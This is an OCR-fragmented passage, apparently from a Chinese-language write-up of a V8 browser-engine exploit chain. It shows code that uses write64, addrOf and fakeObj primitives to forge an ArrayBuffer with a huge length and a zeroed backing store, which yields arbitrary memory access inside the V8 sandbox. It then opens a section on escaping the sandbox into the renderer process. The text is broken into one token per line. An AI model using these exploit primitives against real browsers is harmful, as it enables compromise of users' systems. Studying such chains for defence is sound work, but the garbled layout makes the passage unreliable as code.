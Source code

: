 write64  
(fake_ab_addr +  
0x00n  
,  
addrOf  
(a) +  
0x0n  
);  
// 复制Map指针  
  
      
write64  
(fake_ab_addr +  
0x18n  
,  
0x4000000000n  
);  
// byte_length  
  
      
write64  
(fake_ab_addr +  
0x20n  
,  
0n  
);  
// backing_store  
  
    ...  
  
  
      
// 4. 将伪造的地址转换为JS对象  
  
      
let  
fake_ab =  
fakeObj  
(fake_ab_addr);  
  
  
      
// 5. 在这个被完全控制的ArrayBuffer上创建DataView  
  
      
let  
sbxMemory =  
new  
DataView  
(fake_ab);  
  
      
return  
sbxMemory;  
  
}  
## 🚀 第二阶段：冲出V8的牢笼  
  
在V8沙箱内获得控制权后，下一步是突破这层束缚，染指整个渲染进程。  
### 逃逸原语 (vulns/v8sbx/379140430.js):  
  